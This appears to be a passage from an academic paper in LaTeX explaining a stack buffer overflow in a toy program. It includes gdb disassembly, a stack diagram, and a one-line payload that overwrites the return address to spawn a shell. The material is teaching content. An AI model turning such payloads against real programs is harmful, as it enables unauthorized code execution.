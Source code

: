 \documentclass[10pt,twocolumn]{article}
\begin{document}
\begin{lstlisting}[aboveskip=\bigskipamount,belowskip=\medskipamount,caption=Gdb
output on simple\_overflow.c,label=lst-gdb]
$ gdb -q simple_overflow
(...)
(gdb) disas vuln_func
Dump of assembler code for function vuln_func:
   0x08048524 <+0>:	push   %ebp
   0x08048525 <+1>:	mov    %esp,%ebp
   0x08048527 <+3>:	sub    $0x78,%esp
   0x0804852a <+6>:	sub    $0x8,%esp
   0x0804852d <+9>:	pushl  0x8(%ebp)
   0x08048530 <+12>:	lea    -0x6c(%ebp),%eax
   0x08048533 <+15>:	push   %eax
   0x08048534 <+16>:	call   0x80483a0 <strcpy@plt>
   0x08048539 <+21>:	add    $0x10,%esp
(...)
(gdb) print exec_shell
$1 = (...) 0x80484fb <exec_shell>
\end{lstlisting}

To overwrite the return address with the one of \textit{exec\_shell()} we need
to fill the buffer with $100$ bytes, overwrite SFP\footnote{the saved frame
pointer (old content of \%ebp) is called SFP} with a dummy value and then the
target address. \autoref{lst-stackstate} shows the state of the stack before and
after the overflow.

\begin{lstlisting}[float=h,aboveskip=\bigskipamount,belowskip=\medskipamount,caption=Stack
before and after overflow,label=lst-stackstate]
| <argument>                 |
| <return address>           |
| <old %ebp>                 | <= %ebp
| <0x6c bytes of             |
|       ...                  |
|       buffer>              |
| <argument>                 |
| <address of buffer>        | <= %esp
           BEFORE

| 0x80484fb <exec_shell()>   |
| 0x42424242 <fake old %ebp> | "BBBB" in hex
| 0x41414141 ...             | "AAAA" in hex
|   ... (0x6c bytes of 'A's) |
|   ... 0x41414141           |
           AFTER
\end{lstlisting}

In practice, once the return address is overwritten, the attacker can perform
his exploit via a \textit{code injection} assuming no defenses are in place,
\textit{return-to-libraries} attack, or \textit{return oriented programming}
attack. In the remainder of this paper, we will assume that we deal with a
32bits architecture.

\begin{lstlisting}[float=ht,belowskip=\medskipamount,caption=Spawning a
shell,label=lst-shell]
$ ./simple_overflow "$(python2 -c 'print "A"*0x6c + "BBBB" + "\xfb\x84\x04\x08"')"
Spawning a shell !
sh-4.4$
\end{lstlisting}
\end{document}
